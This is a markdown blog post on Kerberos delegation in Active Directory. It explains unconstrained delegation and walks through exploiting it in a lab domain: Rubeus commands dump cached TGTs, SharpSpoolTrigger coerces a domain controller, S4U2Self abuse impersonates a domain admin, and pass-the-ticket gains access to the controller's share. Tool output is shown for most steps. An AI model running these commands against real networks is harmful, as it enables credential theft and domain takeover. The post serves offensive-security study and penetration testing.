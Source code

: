 ```yaml
---
cover: https://i.postimg.cc/fW9FQ5D7/Designer.jpg
title: "A Deep Dive into Kerberos - Part 2: Exploiting Design Flaws in Delegation Mechanisms"
date: 8/25/2024 3:32:40 +06:00
categories: research
tags: [Unconstrained Delegation, Constrained Delegation, Alternate Service Name, S4U2Self, RBCD]
toc: true
toc_number: false
---
```


# Unconstrained Delegation
![Unconstrained Delegation](https://i.postimg.cc/h4XfzHtT/Unconstrained-drawio.png)

When a user wants to access a service eg: **HTTP** the client will ask for **Service Ticket** for HTTP service from the Ticket Granting Server by providing their TGT and SPN `HTTP\dev.dhitalcorp.local`, the Ticket Granting Server will verify the TGT provide them **ST** for that service, the client will then present the ST to the web server which will grant or deny them access. But in a dynamic web application the web application will have to  only display the information and functionalities this user is supposed to access as opposed to an administrator user right? Due to this issue Microsoft introduced unconstrained delegation. When the user sends **ST** to the web server computer, the web server computer will extract the user's **TGT** from the Service Ticket and cache it in its memory then it will send the user's TGT to the domain controller on behalf of this user to request service ticket for database server. After receiving the **ST** for database server it will connect to the database server on behalf of this user and complete the user impersonation to display only the information and functionalities which the client has access to or perform action on the web application as that user. 

**Note:** If unconstrained delegation is setup on a machine it will impersonate the user and delegate that user's credential to any service without any limitation.

# Problem with this Architecture
The main problem with unconstrained delegation is that any user who accesses the web application, the web server computer will cache their TGT in its memory. So if we have administrator access on web server computer we can extract TGT of every user who accessed the web application. Another interesting aspect to unconstrained delegation is that it will cache the user’s TGT regardless of which service is being accessed by the user from that computer. So, if an admin or user accesses a file share or any other service from that machine, their TGT will be cached.

# Exploiting Unconstrained Delegation
First we need to identify computers setup for Unconstrained Delegation on the domain. We can use PowerView or ADSearch.exe if you're using cobaltstrike.
```powershell
PS C:\Users\Alex> Get-DomainComputer -UnConstrained

Name               : APP01$
DistinguishedName  : CN=APP01,OU=Application Servers,DC=dev,DC=dhitalcorp,DC=local
OperatingSystem    : Windows Server 2016 Standard
Unconstrained      : True
```
After compromising `APP01$` computer we can use Rubeus or mimikatz for exporting the user's TGT who connected to this computer. Below we are using Rubeus.
```powershell
C:\Users\Alex> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
-------------------------------------------------------------------------------------------------------------------- 
 | LUID     | UserName                  | Service                                       | EndTime                  |
 ------------------------------------------------------------------------------------------------------------------| 
 | 0x41a4c3 | administrator @ DEV.DHITALCORP.LOCAL | krbtgt/DEV.DHITALCORP.LOCAL        |   3/7/2024 3:52:17 PM    |
 ------------------------------------------------------------------------------------------------------------------| 
 | 0x35b5d2 | jdoe @ DEV.DHITALCORP.LOCAL | krbtgt/DEV.DHITALCORP.LOCAL                 |   3/7/2024 4:12:45 PM    |
 ------------------------------------------------------------------------------------------------------------------| 
```
We can see jdoe's TGT is cached. We can simply extract his TGT and leverage it using pass the ticket attack.

```powershell
C:\Users\Alex> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x35b5d2 /nowrap

woIGwkMuSU92GH23KL....==
```
# Exploiting Unconstrained delegation via forced authentication
Recently discovered a feature of MS-RPRN which allows any authenticated domain user can force any machine running spooler service to connect to a second machine of the user's choice. We can obtain TGT for machine accounts by forcing them to authenticate to this machine. If unconstrained delegation exists in a machine we can also leverage this to force domain controller to authenticate to this machine to get the TGT of machine account which we can everage via `S4U2Self` abuse. Below we are using Rubeus on app01 to continuously monitor for TGTs.

```powershell
C:\Users\Alex> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:5 /nowrap
```
On any compromised machine we can use SharpSpoolTrigger to force dc.dev.dhitalcorp.local to authenticate to APP01.dev.dhitalcorp.local

```powershell
C:\Users\Alex> C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe dc.dev.dhitalcorp.local app01.dev.dhitalcorp.local
```
As shown below rubeus will grab the TGT of DC$ machine account.
```powershell
[*] 3/7/2024 4:12:45 PM UTC - Found new TGT:

  User                  :  DC$@DEV.DHITALCORP.LOCAL
  StartTime             :  3/7/2024 4:00:00 PM
  EndTime               :  3/7/2024 10:00:00 PM
  RenewTill             :  3/14/2024 4:00:00 PM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

wrJFljlELklQR2FG4EJ7KH7GB8erty....==

```
Now in order to exploit this we need to understand what `S4U2Self` and `S4U2Proxy` is.

- S4U2Self: Allows a service to request service ticket of itself on behalf of any user.
- S4U2Proxy: Allows a service to request service ticket of another service on behalf of any user.

Here, since we have TGT of domain controller abusing `S4U2Self` we can request service ticket of itself(domain controller) on behalf of any user meaning we can simply request service ticket for cifs service on domain controller for domain administrator. Suppose `alex` is the domain administrator.

```powershell
C:\Users\Alex> C:\Rubeus.exe s4u /impersonateuser:alex /self /altservice:cifs/dc.dev.dhitalcorp.local /user:dc$ /ticket:wrJFljlELklQR2FG4EJ7KH7GB8erty...== /nowrap

[*] Action: S4U

[*] Building S4U2self request for: 'DC$@dev.dhitalcorp.local'
[*] Using domain controller: dc.dev.dhitalcorp.local (10.10.63.110)
[*] Sending S4U2self request to 10.10.63.110:88
[+] S4U2self success!
[*] Substituting alternative service name 'cifs/dc.dev.dhitalcorp.local'
[*] Got a TGS for 'alex' to 'cifs@DEV.DHITALCORP.LOCAL'
[*] base64(ticket.kirbi):

ejKSyDWh6fgMuaW9ERb6jl89...=
```
Using this service ticket we can perform pass the ticket attack.

```powershell
C:\Users\Alex> Rubeus.exe ptt /tikcet:<base-64ticket>
```
We can now list shares on dc$ or psexec to gain system access.

```powershell
C:\Users\Alex> ls \\dc.dev.dhitalcorp.local\c$
```
Alternatively instead of cifs we could also request for service ticket for ldap and perform dcsync or request service ticket for HTTP for powershell remoting.

# Constrained Delegation
![Constrained Delegation](https://i.postimg.cc/8Cdhjccb/constrained.jpg)

Due to problem in unconstrained delegation and emerging attaks microsoft released constrained delegation instead of a server configured to delegate a user's credentials to any services, in constrained delegation a server is allowed to delegate the user's credential only to a specific server. eg the web server is only allowed to delegate the user's credential to database server. Here the server configured with constrained delegation does not cache a user's TGT in its memory. The server instead uses its own TGT to request for service ticket on behalf of a user.
